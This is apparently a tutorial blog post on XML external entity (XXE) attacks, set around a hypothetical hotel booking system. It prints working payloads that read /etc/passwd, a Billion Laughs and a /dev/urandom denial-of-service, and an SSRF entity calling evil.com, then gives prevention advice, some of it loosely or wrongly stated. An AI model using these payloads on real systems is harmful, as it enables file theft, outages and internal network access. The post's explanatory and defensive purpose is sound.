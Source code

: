 ```yaml
---
title: XXE Attacks
contributor: Gert J. Oberh
avatar: kobus-oberholzer.png
description: A summary on external entity injections, how they are used in an attack and how to prevent most of them
date: 2022-10-13
tags: [XML, Security]
id: xxe-attacks
relatedPost: react-xss
---
```


In recent years, there has been an increase in the number of XXE (external entity attacks) injections. These attacks take advantage of vulnerabilities in XML processing to inject malicious code into a system. This can allow attackers to gain access to sensitive data or even take control of the system altogether. Fortunately, there are steps you can take to prevent XXE attacks. In this blog post, we will explore some of the most common methods used by attackers and how you can protect your systems against them.

## Table of Contents
<!-- toc -->

## What is an XXE attack?

An XXE attack is a type of attack that exploits vulnerabilities in an XML parser to deliver an XXE payload. This can allow attackers to read local files, send HTTP requests to internal resources, and even perform denial-of-service attacks.

To prevent XXE attacks, it's important to keep your software up to date and to use a **web application firewall** (WAF) to block malicious requests.

## How do XXE attacks work?

An XXE attack occurs when an attacker exploits a vulnerability in an weakly configured XML parser to gain access to sensitive information. The attacker sends specially crafted XML data to the vulnerable parser, which then processes the data and returns the results to the attacker. This can be used to view files on the server, execute commands, or even gain access to other servers on the network.

XXE attacks are often possible due to poor input validation. For example, if an application allows users to upload XML files, but does not properly validate the contents of those files, an attacker could upload a malicious file that contains code that would be executed by the XML parser.

To prevent XXE attacks, it is important to properly validate all input, especially input that comes from untrusted sources. All XML parsers should be configured to disable the processing of external entities by default. If external entities must be processed for some reason, strict validation should be used to ensure that only trusted entities are processed.

## How XXE attacks are used

To demonstrate the different ways XXR attacks work, let's set a scene. A booking system for a hotel is being attacked and we need to evaluate all potential attack vectors.

### Retrieve local files

A very basic way XXE payloads can be used is to retrieve files from the server. Let's say the original usage of XML file was to retrieve information on a booking made by a client like so:

    <?xml version="1.0" encoding="UTF-8"?>
    <bookingId>23</bookingId>

We can adjust this XML data to retrieve files we specify and let it return the results.

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
       <!ELEMENT foo ANY>
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <bookingId>&xxe;</bookingId>

This is considered an **in-band** attack as the vector of attack is clear and the information retrieved is in the form of a response. Another type of attack is called an **out-of-band** attack like a blind attack.

### Blind attack

Blind attacks are when there are some forms of security measures in place that would prevent you from directly requesting privileged information. There is however still a potential attack surface that is just more hidden, by doing a bind attack you may potentially stumble upon a server response in the shape of an error message that reveals more information than intended, an example would be if the parser's error response is disclosing local files which the attacker can choose to infiltrate.

### Denial of service attack

If the attention is not necessary to retrieve data but to deny service, maybe a popular band is performing and the bad actor wants to have a peaceful stay by preventing other potential guests from booking.

This would be the ideal scenario to dispatch a DOS attack. One such attack type is called A Billion Laughs attack.

    ```
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE lolz [
       <!ENTITY lol "lol">
       <!ELEMENT lolz (#PCDATA)>
       <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
       <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
       <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
       <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
       <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
       <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
       <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
       <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
       <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```

Now the reason for the name has become prevalent, let's discuss how it works. First, lol9 will be called which in turn calls lol8 that calls lol7... and this will continue turning kb's of data into GB's within moments.

Another popular way of achieving the same outcome can be done using remote code execution. Asuming the server operates on Linux, an endless recursive file can be called as follows.

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY xxe SYSTEM "file:///dev/urandom">
    ]>
    <foo>&xxe;</foo>

The goal of this type of attack is to use all server resources possibly impacting application availability

### Server-side request forgery (SSRF)

Server-side request forgery happens when the payload appears to be from internal systems, which grants the attacker access to local resources as if authorized.

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY xxe SYSTEM "http://evil.com/">
    ]>
    <foo>&xxe;</foo>

This type of attack can be used as the door to a multitude of other attacks and exploits, such as remote code execution, DOS attacks, or just simply gaining access to privileged information, all while leaving a backdoor for future attacks.

{% img "ssrf-attack.png" "SSRF XXE Attack" "lazy" %}

## How to prevent XXE attacks

XXE attacks exploit vulnerabilities in the way that XML parsers process input. An attacker can supply malicious input to an XML parser in order to cause it to execute unintended actions or access sensitive information.

There are several methods that can be used to prevent XXE vulnerabilities. First, make sure that your XML parser is configured to disable external entity processing. This will ensure that the parser does not automatically resolve external references when processing input.

Next, use positive security controls such as input validation and output encoding. Input validation ensures that all input supplied to the XML parser is well-formed and does not contain any malicious code. Output encoding ensures that any data retrieved from the XML document is properly escaped so that the browser cannot execute it.

Finally, keep your software up to date. Newer versions of XML parsers typically include fixes for XXE vulnerabilities as they are discovered. By keeping your software up to date, you can help to protect yourself against these types of attacks.

## What to do if you're a victim of an XXE attack

If you're a victim of an XXE attack, you should first report the incident to your organization's security team. They'll be able to investigate the attack and take steps to prevent it from happening again.

You should also change any passwords that may have been compromised in the attack. Be sure to use strong, unique passwords for all of your accounts. And finally, stay vigilant for any suspicious activity on your accounts or devices.

## Conclusion

XXE attacks are a serious security threat, but they can be prevented with the right precautions. Be sure to disable external entity parsing in your XML parser, and use a whitelist approach when processing untrusted XML input. With these measures in place, you can rest assured that your applications will be safe.

If any of these topics interests you and you would like to prevent other potential vulnerabilities like this, we offer a complete course on developing with security matters in mind at [websecurity-academy](https://websecurity-academy.com/).
